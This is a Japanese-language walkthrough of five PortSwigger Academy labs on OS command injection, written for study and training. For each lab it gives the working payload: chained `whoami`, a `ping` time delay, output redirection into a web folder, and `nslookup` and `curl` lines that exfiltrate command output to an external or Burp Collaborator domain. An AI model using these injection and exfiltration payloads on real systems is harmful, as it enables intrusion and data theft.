

# OS Command Injection


## Lab: OS command injection, simple case

### Overview
```text
This lab contains an OS command injection vulnerability in the product stock checker.

The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response.

To solve the lab, execute the whoami command to determine the name of the current user.
```

https://portswigger.net/web-security/os-command-injection/lab-simple

### Analyze & Exploit

やるだけ。

payload: `&&whoami`


## Lab: Blind OS command injection with time delays

### Overview

```text
This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.

To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay.
```

https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays

## Analyze && Exploit

今回脆弱な箇所は、feedback機能らしいです。


ありがたいことにcsrfトークンは使いまわしできるので、Repeaterで何度も送信できます。


Blind Os command なので、出力は表示されません。

例えば、`echo hoge`としても`hoge`は出力されないということです

この時、時間遅延を起こせば脆弱性が存在しているか否かがわかります。

つまり、`||ping -c 5 localhost||`このときの`c`に指定している値をすべてのパラメータに入ればヨシです。

基本全てのパラメータで脆弱性を確認できます。

## Lab: Blind OS command injection with output redirection

### Overview

```text
This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:

/var/www/images/
The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the whoami command and retrieve the output.
```

### Analyze & Exploit

feedback機能に脆弱性があるかを確認していきます。


以下の結果から、脆弱性があることがわかります。


今回は、`/var/www/images`にリダイレクトさせる必要があるので、

```bash
whoami >> /var/www/images/whoami.txt
```

とすれば良さそうです。

つまり、payloadは以下になります。

```bash
email=||whoami >> /var/www/images/whomai.txt||
```


後は、`images?filename=whomai.txt`にアクセスすれば良いです。


**whoamiのタイポです**

## Blind OS command injection with out-of-band interaction

### Overview

```text
This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

Note
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.
```

### Analyze && Exploit

BurpSuite Proでなければできないはずです。

`solver`
```bash
email=x||nslookup+<Burp Domain>||
```

##  Blind OS command injection with out-of-band data exfiltration

### Overview

```text
This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab.

Note
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.
```

### Analyze && Exploit

例えば、

```bash
curl https://hoge.com?fuga=`whomai`
```

のようにしたらaccess logには`whomai`の結果が表示されます。

それを利用してwhoamiの結果を取得しようというものです。

```bash
a@ex.com||nslookup `whoami`.<burp-domain>||
```



こうすることでwhoamiの結果がわかります。

```text
The Collaborator server received a DNS lookup of type A for the domain name peter-LQUKCl.<redacted>
```

`peter-LQUKCL`が答えです。

